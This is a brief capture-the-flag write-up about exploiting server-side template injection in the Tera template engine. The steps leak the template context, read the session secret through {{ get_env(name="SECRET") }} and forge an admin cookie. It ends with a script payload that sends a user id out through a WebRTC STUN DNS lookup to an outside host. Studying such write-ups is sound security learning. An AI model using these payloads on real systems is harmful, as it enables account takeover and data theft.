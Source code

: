 + https://tera.netlify.app/docs/#templates
+ SSTI in `one_off` function in Tera when rendering "space"
```
  ctx.tera.insert(
    "space",
    &Tera::one_off(&user.space, &ctx.tera, true).unwrap_or_else(|_| user.space.clone()),
);
ctx.tera.insert("id", &id);
utils::render(tera, "space.html", ctx.tera).into_response()
```
+ When I printed out the template context with {{ __tera_context }}, I got:
  ```
  { "user": { "followers": [], "following": [], "id": "af787749-d532-4d37-94a6-2d6bc4201f63", "name": "lollol", "pass": "", "space": "{{ __tera_context }}" } }
  ```
+ use SSTI to leak the secret for session cookie with {{ get_env(name="SECRET") }}. With the secret and the user ID of admin, we can forge a session cookie to login as admin.
+ WebRTC: https://www.w3.org/TR/webrtc-nv-use-cases/
  WebRTC is an open framework for the web that enables Real-Time Communications (RTC) capabilities in the browser.
+ craft a minimal payload that would do DNS request for the STUN server I specify
```
<script>
async function a(){
    c={iceServers:[{urls:"stun:{{user.id}}.x.cjxol.com:1337"}]}
    (p=new RTCPeerConnection(c)).createDataChannel("d")
    await p.setLocalDescription()
}
a();
</script>
```
+ 


https://ctftime.org/writeup/37702
